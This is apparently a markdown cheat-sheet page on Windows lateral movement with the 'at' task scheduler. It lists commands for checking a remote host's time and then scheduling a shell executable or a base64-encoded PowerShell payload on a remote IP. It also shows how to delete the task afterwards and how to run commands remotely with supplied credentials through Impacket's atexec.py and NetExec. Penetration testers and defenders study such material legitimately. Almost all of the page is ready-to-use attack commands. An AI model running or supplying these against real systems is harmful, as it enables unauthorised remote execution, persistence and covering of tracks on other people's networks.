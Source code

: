 # At

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Living off the Land

### 1.1 - Syntax

```
C:\> at.exe <HH:mm> /interactive /every:<m | t | w | th | f | s | su> C:\path\to\shell.exe
```

### 1.2 - Usage

- Retrieve local time in order to create a schedule task.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command [-ComputerName <IP>] -ScriptBlock {Get-Date}
```

- Create a schedule task.

```
C:\> at.exe [\\<IP>] <HH:mm> /interactive /every:m,t,w,th,f,s,su C:\path\to\shell.exe

C:\> at.exe [\\<IP>] <HH:mm> "powershell.exe -E <base64_payload>"
```

- Cleanup the schedule by querying the current computer and then delete the identifier number.

```
C:\> at.exe [\\<IP>]

C:\> at.exe [\\<IP>] <id> /delete /yes
```

## 02 - Impacket

`$ atexec.py <username>:<password>@<IP>`

## 03 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --no-output --exec-method atexec -x "<command>"

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --no-output --exec-method atexec -X "<cmdlet>"
```

---
## References

- [Impacket Remote Execution Tools - atexec.py](https://u0041.co/blog/post/1)